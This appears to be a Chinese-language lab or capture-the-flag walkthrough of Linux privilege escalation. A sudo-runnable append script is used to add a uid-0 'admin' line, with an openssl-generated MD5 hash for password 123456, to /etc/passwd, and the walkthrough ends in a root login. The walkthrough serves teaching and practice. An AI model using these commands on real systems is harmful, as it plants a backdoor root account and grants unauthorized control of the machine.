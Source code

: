 得到两个路径

    /opt/devstuff/test.py
    /usr/lib/python3/dist-packages/setuptools/command/test.py

**查看**第一个test.py

    if len (sys.argv) != 3 :
        print ("Usage: python test.py read append")
        sys.exit (1)

    else :
        f = open(sys.argv[1], "r")
        output = (f.read())

        f = open(sys.argv[2], "a")
        f.write(output)
        f.close()
     
作用为：读取第一个文本文档并将其内容追加到第二个文本文档中

    参数1：read 内容来源
    参数2：append 追加到哪里

root的uid与gid为0，反之若这两个为0那就是root，并拥有root权限

    root:x:0:0:root:/root:/user/bin/zsh
    用户名:密码:用户ID:组ID:备注:工作目录:命令解释程序路径(shell)

如何**生成**一个符合Linux的**密码**

    openssl passwd -1 -salt admin 123456
    -1 使用最简单的md5算法加密密码
    -salt 插入一个盐
     
    添加完后，前往/etc/shadow复制刚生成的符号Linux格式的密码（明文为前面设置的123456）
    $1$admin$LClYcRe.ee8dQwgrFc5nz.

将下列**写入**到一个文件中

    admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash
    
写入文本

    echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash' >> /tmp/passwd

使用root权限执行

    sudo ./test /tmp/passwd /etc/passwd
    
使用root权限用test脚本将/tmp/passwd文件内容写入到/etc/passwd中

使用新用户登录

    su admin
    输入密码123456

成功提权root用户

&#x20;

&#x20;


